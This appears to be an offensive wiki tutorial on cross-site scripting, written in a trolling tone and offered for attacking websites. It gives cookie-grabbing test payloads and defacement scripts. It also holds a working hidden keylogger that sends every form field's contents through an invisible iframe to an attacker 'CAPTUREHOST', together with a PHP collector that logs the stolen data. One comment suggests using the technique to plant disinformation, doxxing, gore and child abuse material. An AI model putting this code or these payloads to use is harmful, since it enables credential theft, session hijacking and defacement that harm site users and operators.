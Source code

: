 Cross site scripting (or XSS) is a method of exploiting a website that does not validate user supplied input or sanitize output. Web servers that fail to do so will allow you to run arbitrary javascript on an end users browser.

## Entrypoints ##

XSS entrypoints are usually found in webforms & querystrings. You can test for the existence of xss by using the following string.
<pre><script>alert(document.cookie);</script></pre>

You also may be able to include javascript embedded in a flash object, or an image like so:
<pre><img src="javascript:alert(document,cookie);" /></pre>

But this varies between browsers.
Another way is like this
<pre><a href="javascript:alert(document.cookie);">link</a></pre>

But this requires your target to click a link

## Things To Do ##


1. Hijack user sessions/cookies

  * Since user session ID and occasionally usernames/passwords are stored in cookies, you can steal cookie data to impersonate a user by either finding their uname/pass or using their server session ID.
1. Log Keystrokes

  * You can write some code in javascript to send data via ajax/iframes when a user presses a key.
1. Deface pages

  * If the xss exploit you've discovered is saved into a database and redisplayed to other users, you can deface the page by overlaying content.
Remember to always read up on the latest security news. Not long ago, someone figured how to perform an XSS attack _from a motherfucking IP phone_. How? Simple. When you start an IP phone call, your phone or software sends a caller ID. Most IP phone exchange servers log these caller IDs and let you display the call log on a web browser. The caller ID field on most IP telephony protocols (such as H.323 and SIP) is sent as text and saved into a database without validation, because people only send phone numbers on the caller ID field amirite? Well... someone wrote an IP phone program that could send Javascript code on the caller ID field, so that when the admin displayed the phone call log, the browser would run the Javascript! Once you can run Javascript on a browser, you have a platform from which you can launch all the attacks mentioned here and more.

## Sample Code ##

<pre>//---Javascript
//Overlay a black background with LOL in big white text
html='<div style="position:absolute;top:0px;left:0px;z-index:99;width:100%;height:100%;background-color:black;"><h1 style="color:#fff;">LOLHAI</h1></div>';
document.write(html);</pre>

<pre>//---Javascript
//Change the content of <body>
html='<h1>LOLHAI</h1>';
window.document.body.innerHTML=html;</pre>

<pre>//---Javascript
//You can study the structure of a site and change the content for any element ID or tag name
html='<h1>LOLHAI</h1>';
document.getElementById('element_id').innerHTML = html;
document.getElementsByTagName('element_tag')[child].innerHTML = html;
//This is epic for trolling by inserting typos, disinformation, dox, gore, cp, etc</pre>

<pre>//---Javascript
//This is an example of a keylogger. There is also a php file on this article you can use to capture the data.
randVal = 'loldongs'+(Math.round((10000-5000) * Math.random() + 5000));
wp='<div style=":display:block;width:0;height:0;z-index:0;overflow:hidden;" id="'+randVal+'"></div>';
window.onload=function(){
	window.document.body.innerHTML='<div onkeyup="kl();">'+window.document.body.innerHTML+wp+'</div>';
}
function kl(){
	inp=document.getElementsByTagName('input');
	qs='';
	for(var i = 0; i < inp.length; i++){
		qs=qs+i+'_'+inp[i].name+'='+inp[i].value+'&';
	}
	cn=document.getElementById(randVal);
	kf='<iframe style="width:0;height:0;" src="http://CAPTUREHOST/capture.php?'+qs+'"></iframe>';
	cn.innerHTML=kf;
}</pre>

<pre>//---capture.php
//This will catch all data passed as querystrings and save them in a readable format with IP, referrer & timestamp 
<?php
	$dumpFile = "dump";
	$fh = fopen($dumpFile, 'a') or die("can't open file");
	fwrite($fh, date("m/d/y_g:i:s").'|'.$_SERVER['REMOTE_ADDR'].'|'.$_SERVER['HTTP_REFERER'].'|');
	foreach($_GET as $qs => $val){
		fwrite($fh, $qs."=".$val.'|');
	}
	fwrite($fh, "\n");
	fclose($fh);
?></pre>

{{tutorials}}

